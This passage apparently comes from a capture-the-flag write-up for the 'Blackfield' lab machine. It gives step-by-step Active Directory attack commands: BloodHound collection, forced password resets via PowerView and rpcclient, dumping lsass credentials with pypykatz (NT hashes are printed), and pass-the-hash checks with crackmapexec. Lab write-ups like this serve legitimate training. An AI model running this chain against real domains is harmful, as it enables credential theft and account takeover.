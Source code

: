 ## Bloodhound ingestor
```bash
sudo python3 bloodhound.py -u support -p '#00^BlackKnight' -ns 10.10.10.192 -d blackfield.local -c all
```

### Use bloodhound
The support user can reset the password for audit2020
### Abuse info
```
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\dfm.a', $SecPassword)
```

Then create a secure string object for the password you want to set on the target user:

```
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
```

Finally, use Set-DomainUserPassword, optionally specifying $Cred if you are not already running a process as SUPPORT@BLACKFIELD.LOCAL:

```
Set-DomainUserPassword -Identity andy -AccountPassword $UserPassword -Credential $Cred
```

## Change password for user
Use rpcclient
```rpcclient
setuserinfo2 Audit2020 23 'Password123#'
```

# Enumeration as Audit2020
## SMB
Can view the forensics drive.
Mount the drive.
```bash
sudo mount -t cifs -o 'username=Audit2020,password=Password123#' //10.10.10.192/forensic /mnt
```

lsass.zip file in drive.
Unzip the file and try to extract data.
```bash
pypykatz lsa minidump lsass.DMP > lsass.dump
```
Two user's NT hash:
```lst
svc_backup:9658d1d1dcd9250115e2205d9f48400d
Administrator:7f1e4ff8c6a8e6b6fcae2d9c0572cd62
```
Check for valid creds.
```bash
crackmapexec smb 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
```
Which is valid. Check winrm.
```bash
crackmapexec winrm 10.10.10.192 -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
```
This is valid, which means a user on the box!
